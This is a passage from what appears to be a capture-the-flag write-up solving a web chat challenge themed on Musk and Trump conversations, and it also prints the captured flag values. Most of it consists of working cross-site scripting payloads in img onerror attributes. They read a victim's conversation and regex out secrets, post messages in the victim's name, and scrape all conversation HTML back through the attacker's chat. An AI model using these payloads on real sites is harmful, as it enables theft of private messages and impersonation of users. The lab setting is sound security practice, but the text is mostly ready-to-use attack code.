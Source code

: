 ```html
<img src="invalid" onerror="fetch('/conversation/3607a0ed4fd6eb43') // Trump conversation
    .then(response => response.text())
    .then(htmlContent => {
        // Regexp to find 'flag1:' or 'flag2:' followed by 16 hex characters
        const flagRegex = /(flag[12]:[0-9a-fA-F]{16})/g;
        const matches = htmlContent.match(flagRegex) || [];

        // Join matches into a single string to send
        const flags = matches.join(' ');
        return flags; // Pass the flags to the next then
    })
    .then(flags => {
        // Fetch to my conversation
        fetch('/conversation/666b14ed917df14b').then(response => {
            document.getElementById('message').value = flags; // Set the message content to the found flags
            document.getElementById('messageButton').click(); // Send the message
        });
    });"/>
```

This code matches the occurrences of the flags in the HTML page of Elon Musk (so in the conversations Musk have with Trump), and sends the result back to us using the chat.

The flags extracted were:

- Flag 1: `flag1:1803d46883b72d42`
- Flag 2: `flag2:72b30b741696b185`



## Flag 3

To get the third flag, I impersonated Elon by sending a message to Donald, then capturing the response:

```html
<img src="hello" onerror="fetch(`/conversation/3607a0ed4fd6eb43`, {
	method: 'POST',
	headers: {
		'Content-Type': 'application/json'
	},
	body: JSON.stringify({message:'gimme the rest of the codes pls'})
})   
"/>
```



```html
<img src="hello" onerror="fetch('/conversation/666b14ed917df14b').then(async resp =>{

   if (document.querySelector('#header .name').innerText !== 'Van Hove Timothée') {
    let t = Array(...document.querySelectorAll('.conversation')).map(c => c.innerHTML.trim()).join('|||');
    console.log(t)
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}
});"/>
```
